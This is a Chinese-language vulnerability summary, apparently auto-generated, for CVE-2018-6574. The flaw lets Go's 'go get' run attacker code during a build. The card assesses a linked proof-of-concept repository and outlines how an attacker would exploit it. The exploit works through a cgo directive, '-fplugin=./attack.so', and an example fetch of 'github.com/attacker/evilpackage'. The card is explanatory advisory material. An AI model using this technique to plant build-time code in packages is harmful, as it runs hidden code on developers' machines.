 ## CVE-2018-6574 - Go "go get" 远程命令执行

**漏洞编号:** CVE-2018-6574

**漏洞类型:** 远程命令执行

**影响应用:** Go

**危害等级:** 高危，可能导致远程代码执行和系统完全控制

**影响版本:** Go before 1.8.7, Go 1.9.x before 1.9.4, and Go 1.10 pre-releases before Go 1.10rc2

**利用条件:** 用户使用受影响的Go版本执行 `go get` 命令获取恶意Go包。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2018-6574 允许通过 `go get` 命令执行远程命令。攻击者可以创建一个恶意的 Go 包，其中包含利用 gcc 或 clang 插件功能的恶意代码。当用户使用 `go get` 获取并构建此恶意包时，Go 会执行攻击者插入的恶意代码。

**有效性：**
提供的 POC 代码演示了如何利用 `-fplugin` 选项。`main.go` 文件使用 `#cgo CFLAGS: -fplugin=./attack.so` 指令，指示 Go 在编译时加载 `attack.so` 插件。如果 `attack.so` 包含恶意代码，它将在构建过程中执行。这个POC代码表明该漏洞可以被利用。

**投毒风险：**
代码中通过 `-fplugin=./attack.so` 引入外部so文件，如果该so文件不是由代码作者提供或来源不明，则存在投毒风险。虽然POC本身只是一个演示性质的例子，但是一旦被攻击者利用，替换`attack.so`，可能会导致用户在不知情的情况下运行恶意代码。投毒风险估计为10%，因为需要攻击者替换或控制`attack.so`文件。

**利用方式：**
1.  攻击者创建一个包含恶意 `attack.so` 文件的 Go 包。`attack.so` 文件包含攻击者想要执行的任意代码。
2.  攻击者将包含恶意 Go 包的仓库托管在公共服务器上。
3.  攻击者诱使用户使用 `go get` 命令获取此恶意包，例如 `go get github.com/attacker/evilpackage`。
4.  当用户运行 `go get` 命令时，Go 会下载并构建该包。由于 `main.go` 中包含 `#cgo CFLAGS: -fplugin=./attack.so` 指令，构建过程会加载并执行 `attack.so` 中的恶意代码。
5.  恶意代码在用户系统上执行，攻击者可以获得远程代码执行权限。

**项目地址:** [rootxjs/CVE-2018-6574](https://github.com/rootxjs/CVE-2018-6574)

**漏洞详情:** [CVE-2018-6574](https://nvd.nist.gov/vuln/detail/CVE-2018-6574)